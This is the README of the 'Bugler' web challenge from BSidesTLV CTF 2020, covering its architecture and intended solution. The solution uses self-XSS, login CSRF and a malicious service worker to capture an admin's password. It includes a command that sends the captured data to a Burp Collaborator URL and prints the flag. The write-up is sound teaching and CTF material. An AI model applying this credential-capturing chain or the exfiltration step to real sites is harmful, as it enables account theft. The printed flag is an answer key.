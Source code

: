 # Bugler
[BSidesTLV CTF 2020] Bugler Challenge

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
The admin of bugler is not new to Phishing attacks,  
He want to know that he's website customers are safe from these kind of attacks.  
So don't be selfish share phishing sites of malicious users, the admin will appreciate your service.  

### Challenge Design
The challenge components are:  
* challenge (Backend + Forntend Server)  
* database (MongoDB for registrations)
* queue (rabbitmq queue between the bot and the challenge)
* bot (puppeteer chromium based headless browser with a queue that get messages from the challenge)

### Challenge Scaled Design
* create as much bot instances as you need
* you can also create more challenge instances
* creat network file storage (nfs) and connect it to the challenge instances at /app/public/upload.
* create a load balancer and let it balance between the challenge instances. (no sticky cookie needed if you are not duplicating the database, queue and nfs).

![BSidesTLV CTF 2020 - Challenge Diagram](resources/img/diagram.png)

### Challenge Purpose
* Teach people that self XSS is could be more dangerous then they thought  
* Let people experience with Service Workers  
* Let people experience with login CSRF  

### Challenge Solution
1) Deploy the app: docker-compose up --build -d
2) Add "127.0.0.1 bugler.ctf.bsidestlv.com" to the hosts file (add other ip address if its remote)  
3) Execute solution.py (tested with python3)
   ```bash
   cd solution
   pip install requirements.txt
   python solution.py -l {LEAK_URL}
   ```
   * LEAK_URL - Burp Collaborator / RequestBin / Other URL
   * Example: `python solution.py -l https://r6yhg580xmz4aawm50mqprae95fw3l.burpcollaborator.net/`
4) Decode the argument from the query parameter password and you have the flag: **BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}**

### Challenge Solution Explanation
The exploit create a new user (if not exist, if exist it will login),   
Update the profile (which is vulnerable to self XSS): 
* upload service_worker.js file as the **avatar**  
* set csrf url as the **website**
* set address/city as the XSS payload which installs the service worker   

The user need to understand that he must use CSRF in order to get the admin execute the XSS payload,    
The CSRF attack is possible from the public profile of the user (by clicking on the profile picture) and reporting website as a phishing site....
The user will see the response header **"Service-Worker-Allowed: /"** and he will know he must use service workers in order to get the admin access (the admin wasn't login before the attack - short session cookie).    
With the service workers he will get all the admin traffic and the flag will be in the admin password.  
 
[![Bugler - Deployment & Solution](http://img.youtube.com/vi/p3EMyP6dguE/0.jpg)](http://www.youtube.com/watch?v=p3EMyP6dguE)
  
